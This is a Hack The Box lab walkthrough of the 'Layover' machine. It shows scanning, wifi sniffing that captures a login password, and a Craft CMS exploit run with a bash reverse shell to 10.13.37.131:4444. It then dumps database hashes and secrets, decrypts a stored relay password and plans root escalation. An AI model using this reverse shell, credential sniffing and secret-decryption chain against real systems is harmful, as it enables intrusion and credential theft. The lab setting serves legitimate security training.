

# Layover

As is common in real life pentests, you will start the Layover box with credentials for the following account **contractor** / **Contractor2026!**

sudo nmap -sCV 10.129.73.126
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-20 15:18 EDT
Nmap scan report for 10.129.73.126
Host is up (0.0077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

sudo nmap -p- -T5 10.129.73.126
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-20 15:20 EDT
Nmap scan report for 10.129.73.126
Host is up (0.0074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3389/tcp open  ms-wbt-server

xfreerdp /v:10.129.73.126 /u:contractor /p:'Contractor2026!’



HTB Airways staff notice: the HTB Airways Miles employee portal is reachable on this passenger network at [http://portal.international.htb/miles/](http://portal.international.htb/miles/). Please sign in periodically to verify your Miles balance and lounge bookings.

sudo -l
[sudo] password for contractor:
Matching Defaults entries for contractor on airside-ws01:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty

User contractor may run the following commands on airside-ws01:
(ALL : ALL) ALL

sudo su
root@airside-ws01:/# id
uid=0(root) gid=0(root) groups=0(root)
root@airside-ws01:/# whoami
root

set up ligolo tunnel

sudo nmap -sCV 10.159.143.1 10.159.143.45
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-22 09:38 EDT
Nmap scan report for 10.159.143.1
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   open     domain        dnsmasq 2.90
| dns-nsid:
|_  bind.version: dnsmasq-2.90
3389/tcp open     ms-wbt-server Microsoft Terminal Service
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.159.143.45
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e5:3f:74:92:2a:ce:94:22:d9:88:37:1e:24:bd:82:a3 (ECDSA)
|_  256 68:27:a3:a7:60:3e:a2:07:6c:dc:03:48:bb:23:7a:94 (ED25519)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows


for i in {1..254}; do ping -c 1 -w 1 10.13.37.$i | grep "64 bytes"; done
64 bytes from 10.13.37.1: icmp_seq=1 ttl=64 time=21.1 ms
64 bytes from 10.13.37.132: icmp_seq=1 ttl=64 time=19.8 ms

nmap -sT --top-ports 1000 10.13.37.1
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-22 12:02 EDT
Nmap scan report for wifi.international.htb (10.13.37.1)
Host is up (0.015s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   filtered ssh
53/tcp   open     domain
80/tcp   open     http
3389/tcp open     ms-wbt-server

dig +short portal.international.htb @10.13.37.1
10.13.37.10

join wlan2 and wlan3 using wifi icon at the top right


for i in {1..254}; do ping -c 1 -w 1 10.13.37.$i | grep "64 bytes"; done
64 bytes from 10.13.37.1: icmp_seq=1 ttl=64 time=0.298 ms
64 bytes from 10.13.37.131: icmp_seq=1 ttl=64 time=0.042 ms
64 bytes from 10.13.37.132: icmp_seq=1 ttl=64 time=0.341 ms
64 bytes from 10.13.37.182: icmp_seq=1 ttl=64 time=0.041 ms

10.13.37.10 is portal.interantional.htb

add to /etc/hosts

```jsx
gobuster dir -u http://portal.international.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://portal.international.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 6278]
/admin                (Status: 302) [Size: 0] [--> http://portal.international.htb/admin/login]

```


Findings

Check: X-Powered-By header
Result: Craft CMS

Meaning: Confirmed Craft, nginx/1.24 (Ubuntu), PHP session + CSRF cookies set
────────────────────────────────────────
Check: actions/app/health-check
Result: HTTP 200

Meaning: Action routing via index.php?p=admin/actions/... works
unauthenticated

────────────────────────────────────────
Check: actions/conditions/render

Result: Craft "Bad Request" error page, not 404
Meaning: The vulnerable controller is present and reachable unauthenticated
────────────────────────────────────────
Check: actions/app/check-for-updates
Result: 403
Meaning: Auth-gated (expected) — version not leaked this way
────────────────────────────────────────
Check: [CHANGELOG.md](http://changelog.md/)
Result: 404
Meaning: Version not disclosed here

The important one

actions/conditions/render exists and accepts POST data — it returns a
Craft-rendered "Bad Request" page (because I only sent a partial gadget), not
an "action not found" 404. That is exactly the fingerprint of CVE-2023-41892 —
the unauthenticated RCE in Craft 4.0.0-RC1 → 4.4.14. The conditions
controller was reworked after 4.4.14, so its presence strongly implies a
vulnerable version (I couldn't leak the exact build number — the
version-disclosing endpoints are either auth-gated or 404).

The box is almost certainly meant to be rooted through this. The public
exploit is a two-stage chain:

1. POST a crafted object gadget (GuzzleHttp FnStream + Imagick MSL) to
conditions/render to write a PHP payload to a temp path.
2. Trigger it to drop/execute a webshell → RCE as the web user.

```jsx
root@airside-ws01:/home/contractor# nmcli dev disconnect wlan3 2>/dev/null    
  Device 'wlan3' successfully disconnected.                                     
  root@airside-ws01:/home/contractor# nmcli dev set wlan3 managed no            
  2>/dev/null                                                                   
  root@airside-ws01:/home/contractor# pkill -f 'wpa_supplicant.*wlan3'          
  2>/dev/null                                                                   
  root@airside-ws01:/home/contractor# ip link set wlan3 down                    
  root@airside-ws01:/home/contractor# iw dev wlan3 set type monitor             
  root@airside-ws01:/home/contractor# ip link set wlan3 up                      
  root@airside-ws01:/home/contractor# iw dev wlan3 set channel 6                
  root@airside-ws01:/home/contractor# iw dev wlan3 info | grep -E               
  'type|channel'                                                                
      type monitor                                                              
      channel 6 (2437 MHz), width: 20 MHz (no HT), center1: 2437 MHz            
  root@airside-ws01:/home/contractor# timeout 15 tcpdump -i wlan3 -n -e         
  2>/dev/null | awk '{print $2,$3,$4}' | sort | uniq -c | sort -rn | head       
  Terminated                                                                    
  root@airside-ws01:/home/contractor# timeout 900 tcpdump -i wlan3 -n -s0 -w    
  /tmp/wifi.pcap 'subtype data' & timeout 900 tcpdump -i wlan3 -n -s0 -A        
  'subtype data' 2>/dev/null | grep -iE --line-buffered 'POST                   
  |password|passwd|loginName|username=|Authorization'                           
  [1] 35433                                                                     
  tcpdump: listening on wlan3, link-type IEEE802_11_RADIO (802.11 plus radiotap 
  header), snapshot length 262144 bytes                                         
  19:07:56.925559 1792782476925545us tsft 54.0 Mb/s 2437 MHz 11g -30dBm signal  
  antenna 0 IP 10.13.37.132.37690 > 10.13.37.10.80: Flags [P.], seq 1:212, ack  
  1, win 502, options [nop,nop,TS val 2312553262 ecr 752586203], length 211:    
  HTTP: POST /miles/login.php HTTP/1.1                                          
  ....,...POST /miles/login.php HTTP/1.1                                        
  username=jenny&password=Fl1ghtDeck2026!
```


git clone [https://github.com/4xura/CVE-2026-44011-craftcms-auth-rce.git](https://github.com/4xura/CVE-2026-44011-craftcms-auth-rce.git)

```jsx
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-uhouexzkat]─[~]
└──╼ [★]$ cd CVE-2026-44011-craftcms-auth-rce/
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-uhouexzkat]─[~/CVE-2026-44011-craftcms-auth-rce]
└──╼ [★]$ ls
cve-2026-44011.py  LICENSE  README.md  requirements.txt  tests
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-uhouexzkat]─[~/CVE-2026-44011-craftcms-auth-rce]
└──╼ [★]$ cat requirements.txt 
requests>=2.31,<3
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-uhouexzkat]─[~/CVE-2026-44011-craftcms-auth-rce]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.247.82 - - [24/Oct/2026 14:24:41] "GET /cve-2026-44011.py HTTP/1.1" 200 -

root@airside-ws01:/home/contractor# wget 10.10.14.80:8000/cve-2026-44011.py
--2026-10-24 18:24:32--  http://10.10.14.80:8000/cve-2026-44011.py
Connecting to 10.10.14.80:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15252 (15K) [text/x-python]
Saving to: ‘cve-2026-44011.py’

cve-2026-44011.py   100%[===================>]  14.89K  --.-KB/s    in 0.01s   

2026-10-24 18:24:32 (1.16 MB/s) - ‘cve-2026-44011.py’ saved [15252/15252]

root@airside-ws01:/home/contractor# python3 cve-2026-44011.py -b 'http://portal.international.htb/admin' -u jenny -p 'Fl1ghtDeck2026!' 
usage: cve-2026-44011.py [-h] -b BASE_URL [-P CP_PATH] -u USERNAME -p PASSWORD
                         -c COMMAND [-s SITE_ID] [-e ELEMENT_TYPE]
                         [-f CSRF_FIELD] [-t TIMEOUT] [-F] [-H CALLBACK_HOST]
                         [--listen-port LISTEN_PORT]
cve-2026-44011.py: error: the following arguments are required: -c/--command
root@airside-ws01:/home/contractor# python3 cve-2026-44011.py -b 'http://portal.international.htb/admin' -u jenny -p 'Fl1ghtDeck2026!' -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.37.131/4444 0>&1'"
error: --base-url must be an HTTP(S) origin without a path
root@airside-ws01:/home/contractor# python3 cve-2026-44011.py -b 'http://portal.international.htb' -u jenny -p 'Fl1ghtDeck2026!' -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.37.131/4444 0>&1'"
[+] Login successful
Craft version: 5.9.8
authenticated search: HTTP 200, elapsed=0.05s
[+] Benign search accepted
output listener: bound to 0.0.0.0:37679; callback URL http://10.13.37.131:37679
stage request: HTTP 500, elapsed=0.11s
[+] Target fetched staged script
execution request: timed out while waiting for Craft's response
command output: no callback received

contractor@airside-ws01:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.13.37.10 55814
bash: cannot set terminal process group (294): Inappropriate ioctl for device
bash: no job control in this shell
www-data@portal:~/portal/web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@portal:~/portal/web$ ^Z
[1]+  Stopped                 nc -lvnp 4444
contractor@airside-ws01:~$ stty raw -echo; fg
nc -lvnp 4444

www-data@portal:~/portal/web$ export TERM=xterm

www-data@portal:/opt$ su aporter
Password: Skyp0rt_Relay!26

```

www-data@portal:~/html$ env
PWD=/var/www/html
HOME=/var/www
TERM=xterm
USER=www-data
SHLVL=1
SOCAT_PPID=1512
SOCAT_PID=1512
LC_CTYPE=C.UTF-8
SOCAT_VERSION=1.8.0.0
_=/usr/bin/env
OLDPWD=/var/www
www-data@portal:~/html$ cd ../portal
www-data@portal:~/portal$ cat .env

# Read about configuration, here:

# [https://craftcms.com/docs/5.x/configure.html](https://craftcms.com/docs/5.x/configure.html)

# The application ID used to to uniquely store session and cache data, mutex locks, and more

CRAFT_APP_ID=CraftCMS--41606de1-cf7a-4fc5-8b1e-6f746d801adf

# The environment Craft is currently running in (dev, staging, production, etc.)

CRAFT_ENVIRONMENT=production

# General settings

CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
CRAFT_DEV_MODE=false
CRAFT_ALLOW_ADMIN_CHANGES=false
CRAFT_DISALLOW_ROBOTS=true

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_2026
CRAFT_DB_TABLE_PREFIX=

PRIMARY_SITE_URL=http://portal.international.htb/
CRAFT_ENABLE_TWIG_SANDBOX=true
www-data@portal:~/portal$ mysql -u craftuser -p'CraftDB_pw_2026'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16838
Server version: 10.11.14-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| craft              |
| information_schema |
+--------------------+
2 rows in set (0.003 sec)

MariaDB [(none)]> use craft;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [craft]> ls
-> ;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ls' at line 1
MariaDB [craft]> show tables;
+----------------------------+
| Tables_in_craft            |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| assets_sites               |
| authenticator              |
| bulkopevents               |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| contentblocks              |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elementactivity            |
| elements                   |
| elements_bulkops           |
| elements_owners            |
| elements_sites             |
| entries                    |
| entries_authors            |
| entrytypes                 |
| fieldlayouts               |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| htbairways_settings        |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| migrations                 |
| miles_members              |
| plugins                    |
| projectconfig              |
| queue                      |
| recoverycodes              |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| searchindexqueue           |
| searchindexqueue_fields    |
| sections                   |
| sections_entrytypes        |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| sso_identities             |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| webauthn                   |
| widgets                    |
+----------------------------+
72 rows in set (0.005 sec)

MariaDB [craft]> select * from users;
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | affiliatedSiteId | active | pending | locked | suspended | admin | username | fullName       | firstName | lastName | email                                | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |             NULL |      1 |       0 |      0 |         0 |     1 | admin    | NULL           | NULL      | NULL     | admin@htb-international.htb          | $2y$13$ZdTZwteklJx2.z6sEY35pehuiOsB28y3sGJTNozu.xTpYRe4MCGg2 | 2026-07-16 10:10:55 | NULL               | NULL                    |              NULL | NULL                 | NULL        |            0 | NULL             | NULL                       | NULL            |                     0 | 2026-07-15 21:21:19    | 2026-07-15 21:21:19 | 2026-07-16 10:10:55 |
|  2 |    NULL |             NULL |      1 |       0 |      0 |         0 |     0 | jenny    | Jenny Crawford | Jenny     | Crawford | jenny.crawford@htb-international.htb | $2y$13$abHJk/QQLb8BE4L2pkBblebjEeWCMyFAdwguN2d7rDHZnnHJWvG7q | 2026-10-23 19:51:12 | NULL               | NULL                    |              NULL | NULL                 | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2026-07-16 10:13:34    | 2026-07-16 10:13:34 | 2026-10-23 19:51:12 |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------------+-----------+----------+--------------------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
2 rows in set (0.000 sec)

MariaDB [craft]> SELECT * FROM htbairways_settings;
+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
| id | name              | value                                                                                                                                                                        | dateCreated         | dateUpdated         |
+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
|  1 | mailRelayPassword | u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w= | 2026-07-16 03:19:52 | 2026-07-16 03:19:52 |
|  2 | mailRelayHost     | mail.htbairways.htb                                                                                                                                                          | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
|  3 | mailRelayPort     | 587                                                                                                                                                                          | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
|  4 | mailRelayUser     | aporter                                                                                                                                                                      | 2026-08-11 13:31:23 | 2026-08-11 13:31:23 |
+----+-------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+---------------------+
4 rows in set (0.003 sec)

MariaDB [craft]> SELECT * FROM miles_members;
+----+----------+------------------------+----------------+------------+----------+--------+-----------+---------+-------------------------------+--------------+--------------+-------------+
| id | username | email                  | display_name   | member_id  | tier     | miles  | next_tier | next_at | lounge                        | home_airport | member_since | booking_ref |
+----+----------+------------------------+----------------+------------+----------+--------+-----------+---------+-------------------------------+--------------+--------------+-------------+
|  1 | jenny    | jenny@htbairways.htb   | Jenny Crawford | HA-4471880 | Gold     |  48250 | Platinum  |   75000 | Gold Lounge · Terminal 2      | HTB          | 2021         | KS7X2M      |
|  2 | dwalsh   | [d.walsh@example.com](mailto:d.walsh@example.com)    | Daniel Walsh   | HA-2038114 | Silver   |  12880 | Gold      |   25000 | Not included at your tier     | HTB          | 2023         | NULL        |
|  3 | achen    | [amara.chen@example.com](mailto:amara.chen@example.com) | Amara Chen     | HA-9911207 | Platinum | 214600 | Platinum  |       0 | Platinum Lounge · Terminal 2  | HTB          | 2016         | NULL        |
|  4 | mrossi   | [m.rossi@example.com](mailto:m.rossi@example.com)    | Marco Rossi    | HA-6620933 | Gold     |  63400 | Platinum  |   75000 | Gold Lounge · Terminal 2      | FCO          | 2019         | NULL        |
|  5 | kpatel   | [k.patel@example.com](mailto:k.patel@example.com)    | Kiran Patel    | HA-3140558 | Silver   |   8120 | Gold      |   25000 | Not included at your tier     | LHR          | 2024         | NULL        |
|  6 | lnovak   | [lena.novak@example.com](mailto:lena.novak@example.com) | Lena Novak     | HA-7782461 | Gold     |  71900 | Platinum  |   75000 | Gold Lounge · Terminal 2      | HTB          | 2018         | NULL        |
|  7 | tobrien  | [t.obrien@example.com](mailto:t.obrien@example.com)   | Tom O'Brien    | HA-5093822 | Blue     |   3200 | Silver    |   25000 | Not included at your tier     | DUB          | 2025         | NULL        |
+----+----------+------------------------+----------------+------------+----------+--------+-----------+---------+-------------------------------+--------------+--------------+-------------+
7 rows in set (0.001 sec)

cat > /tmp/d.php <<'PHP'
<?php
require '/var/www/portal/vendor/autoload.php';
$key = 'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr';
$b64 = 'u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMm
M4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4
I3W/cqDF7Pr/58qVfPoNl5w=';
$sec = new \yii\base\Security();
var_dump($sec->decryptByKey(base64_decode($b64), $key));
PHP
php /tmp/d.php

www-data@portal:/dev/shm$ vi d.php
www-data@portal:/dev/shm$ php /tmp/d.php
Could not open input file: /tmp/d.php
www-data@portal:/dev/shm$ php /dev/shm/d.php
string(16) "Skyp0rt_Relay!26"

www-data@portal:/dev/shm$ su aporter
Password:
aporter@portal:/dev/shm$ id
uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)
aporter@portal:/dev/shm$ cd /home/aporter/
aporter@portal:~$ls
user.txt
aporter@portal:~$ cat user.txt
9ecdb2adca19bbb13c53aeb52c9840a7

```jsx
cat htb-layover-context.md 
# HTB Layover — Engagement Context

_Last updated: 2026-10-23. Box: **Layover** (airline / "HTB Airways" theme). Target hostname: `portal`._

## Status
- **user.txt: OBTAINED** (as `aporter`) — `9ecdb2adca19bbb13c53aeb52c9840a7`
- **root.txt: NOT YET** — actively hunting aporter → root.

## Target facts
- OS: Ubuntu 24.04, kernel `6.8.0-142-generic` (Sept 2026, fully patched — no easy kernel LPE).
- **Running inside an LXC container** (`/dev/.lxc-boot-id`; `/` is an `idmapped` ext4 mount). This is why tons of dirs show owner `197108:197121` (host-shifted uids, not writable by us). root.txt is the container's `/root/root.txt`.
- Internal listeners: `22`, `80` (nginx), `3306` (MariaDB, localhost), `631/tcp` (CUPS, localhost), `53`. **No `631/udp`**, **no `cups-browsed`**.
- Only non-standard root daemon: `cupsd` (custom unit, see below). Everything else (SUID/SGID, cron, /opt, /usr/local) is stock.

## Credentials / access in hand
| What | Value | Notes |
|---|---|---|
| System user | `aporter` / `Skyp0rt_Relay!26` | valid for SSH + `su aporter`; this = the decrypted SMTP relay password |
| Craft DB (MySQL) | `craftuser` / `CraftDB_pw_2026` | `ALL` on `craft.*` only, `USAGE` global → **no FILE priv**, so no `INTO OUTFILE` |
| Craft `CRAFT_SECURITY_KEY` | `IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr` | from `/var/www/portal/.env` |
| Craft admin hash (id 1) | `$2y$13$ZdTZwteklJx2.z6sEY35pehuiOsB28y3sGJTNozu.xTpYRe4MCGg2` | bcrypt cost 13 — crack w/ `hashcat -m 3200` |
| Craft user `jenny` hash (id 2) | `$2y$13$abHJk/QQLb8BE4L2pkBblebjEeWCMyFAdwguN2d7rDHZnnHJWvG7q` | logs in recently/daily |

Passwords tried against `su - root` (FAILED): `Skyp0rt_Relay!26`, `CraftDB_pw_2026`.

## How user was reached (aporter)
1. Foothold = `www-data` via the Craft CMS portal at `/var/www/portal` (Craft 5, Twig sandbox on).
2. Custom module `modules/htbairways/console/controllers/MilesController.php` + cron `/etc/cron.d/htbairways-miles` reveal an SMTP relay password stored **encrypted** in DB table `htbairways_settings` (`mailRelayPassword`), decryptable with `CRAFT_SECURITY_KEY`.
3. Decrypted it (Yii2 `Security::decryptByKey`, bare autoloader):
   ```php
   // php script, /dev/shm/d.php
   require '/var/www/portal/vendor/autoload.php';
   $sec = new \yii\base\Security();
   echo $sec->decryptByKey(base64_decode($B64_FROM_DB), 'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr');
   ```
   → `Skyp0rt_Relay!26` (relay user is `aporter`; password reused for the system account).
4. `su aporter` with that → user.txt.

## The custom CUPS setup (root vector — but gated)
- `/etc/systemd/system/cups.service` (hand-written, world-readable):
  ```
  [Service]
  Environment=LD_LIBRARY_PATH=/usr/lib64
  ExecStart=/usr/sbin/cupsd -f        # no User= → runs as ROOT
  Restart=on-failure
  ```
- `/etc/ld.so.conf.d/cups2416.conf` adds `/usr/lib64` to the loader path.
- `/usr/lib64` contains root-owned `libcups.so.2`, `libcupsimage.so.2`. **Dir is `root:root 755` — NOT writable by aporter.**
- CUPS version **2.4.16**. Admin surface reachable on `localhost:631`.

### Why CUPS is currently blocked for aporter
- CUPS admin auth = PAM; aporter's password **is accepted**, but aporter is **not in `@SYSTEM`** → `lpadmin ... -p ...` returns **`Forbidden`** (403). (`lpadmin` group doesn't even exist on the box.)
- Therefore **all CUPS routes that need printer-admin are out for aporter**: adding a printer, foomatic-rip PPD RCE, and **CVE-2026-95511** (serial-backend LPE — real but disputed; *requires* `@SYSTEM`/`lpadmin`, so unreachable here). **CVE-2024-47176** also N/A (no `cups-browsed`).
- The library-hijack of `/usr/lib64` would be the clean root path, but needs either write to `/usr/lib64` (can't) or a cupsd restart (polkit refuses — needs root pw).

## Ruled out (don't re-chase)
- `sudo -l` → nothing. No SUID/SGID beyond stock Ubuntu set. `getcap` nothing useful.
- All loader-search dirs (`/usr/lib64`, `/usr/local/lib`, `/usr/local/lib/x86_64-linux-gnu`, `/lib/...`, `/usr/lib/...`) → `root:root`, **not writable**.
- MySQL `craftuser` → no `FILE` priv (no `INTO OUTFILE`).
- Cron (`/etc/cron.d`, `cron.daily/hourly/weekly`, `/etc/crontab`) → all stock; only custom job = miles mailer (runs as www-data).
- `find / -writable` outside home → only standard tmp dirs + `/dev/null`-masked systemd units (false positives: `sudo.service` etc. → `/dev/null`).
- runit dirs (`/etc/sv`, `/etc/service`, `/service`) → don't exist (`_runit-log` is a leftover account).
- `/opt`, `/usr/local/bin`, `/usr/local/sbin` → empty.
- No docker/lxd socket we can use. `su - root` with both known passwords → fail.
- socat scripts in `/usr/bin` (`socat-chain/broker/mux.sh`) → stock socat examples, red herrings.

## CURRENT OPEN LEAD (pick up here) → aporter's GPG-as-SSH agent
Deliberately configured for aporter and not yet examined:
- env had `SSH_AUTH_SOCK=/run/user/1001/gnupg/S.gpg-agent.ssh`, `GSM_SKIP_SSH_AGENT_WORKAROUND=true`
- `~/.gnupg` is a populated 700 dir; live `gpg-agent` (pid 19457) + `keyboxd`, with `S.gpg-agent.ssh` socket.

**Next commands (as aporter on target):**
```bash
ssh-add -l
ssh-add -L
gpg --list-secret-keys --keyid-format long
ls -la ~/.gnupg
# if a key is present, use it straight against root (agent offers it automatically):
ssh -o StrictHostKeyChecking=no -o PreferredAuthentications=publickey root@localhost id
# also try: root@127.0.0.1 , root@portal
```
Hypothesis: an authentication key in aporter's GPG/SSH agent is trusted by root → `ssh root@localhost` = root.

## Fallbacks if the agent is empty
1. **Crack the Craft `admin` bcrypt** (and `jenny`) on Kali and test against `su - root` (app-admin → system-root reuse):
   ```bash
   echo '$2y$13$ZdTZwteklJx2.z6sEY35pehuiOsB28y3sGJTNozu.xTpYRe4MCGg2' > admin.hash
   hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
   ```
2. Sweep Craft DB for more secrets: tables `info`, `projectconfig`, `authenticator`, `sso_identities`, `sessions`, `htbairways_settings`.
3. Re-examine whether anything lets aporter reach `@SYSTEM`/`lpadmin` (would re-open the whole CUPS root chain + CVE-2026-95511).
4. snapd is running (`/run/snapd.socket`) — low priority; malicious-snap install needs auth.

## Pivot / tunneling notes
